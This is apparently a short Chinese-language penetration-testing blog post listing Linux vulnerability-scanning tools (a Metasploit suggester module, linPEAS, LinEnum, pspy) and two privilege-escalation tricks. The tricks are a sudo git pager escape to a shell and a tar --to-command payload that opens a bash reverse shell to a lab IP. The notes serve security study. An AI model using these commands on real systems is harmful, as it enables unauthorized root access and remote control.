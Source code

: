 ```yaml
---
title: Linux漏洞扫描与提权
date: 2021/12/12
tags: [linux,渗透测试,漏洞利用]
categories: 渗透测试
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_19.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_19.jpg
---
```




# Linux漏洞扫描与提权

## 漏洞扫描

- msf

```
use post/multi/recon/local_exploit_suggester
```

- **[windows-exploit-suggester.py](https://github.com/mxrmiss/Automation-script/blob/cb1807ed3582b9d965f77d048f5a8952a69ddd5d/Windows-Exploit-Suggester/Windows-Exploit-Suggester-master/windows-exploit-suggester.py)**
    - 需要安装pip2



- pspy

```
需要先给pspy脚本执行权力才能执行
```

- linPEAS

```
git clone https://github.com/mxrmiss/PEASS-ng.git
```



- LinEnum

```
git clone https://github.com/mxrmiss/LinEnum.git
```





## 提权

-  git

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```

-  tar

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.2/4445 0>&1' > xxx.sh
tar -cvf xxx.tar xxx.sh
sudo  -u onuma tar -xvf xxx.tar --to-command /bin/bash
```





